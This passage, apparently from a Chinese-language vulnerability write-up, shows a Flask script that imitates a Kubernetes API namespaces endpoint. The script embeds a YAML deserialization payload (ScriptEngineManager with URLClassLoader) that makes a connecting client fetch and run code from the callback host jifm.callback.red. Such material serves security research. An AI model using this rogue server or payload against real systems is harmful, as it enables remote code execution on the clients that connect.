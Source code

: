 [![](assets/1709531007-9f2d09f12ed488155f18da86ae0cbc03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115740-d9636660-d77f-1.png)

2、伪造 Server 端  
启动如下 Flask 脚本：

```plain
from flask import Flask, jsonify

app = Flask(__name__)

@app.route('/api/v1/namespaces', methods=['GET'])
def get_namespaces():
    namespaces = {
  "kind": "NamespaceList",
  "apiVersion": "v1",
  "metadata": {
    "selfLink": "/api/v1/namespaces",
    "resourceVersion": "123456"
  },
  "items": [
    {
      "metadata": {
        "name": "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://jifm.callback.red\"]]]]",
        "uid": "9c8b7a6f",
        "creationTimestamp": "2024-02-22T12:00:00Z"
      },
      "spec": {
        "finalizers": []
      },
      "status": {
        "phase": "Active"
      }
    }
  ]
}
    return jsonify(namespaces)

if __name__ == '__main__':
    app.run(debug=True)
```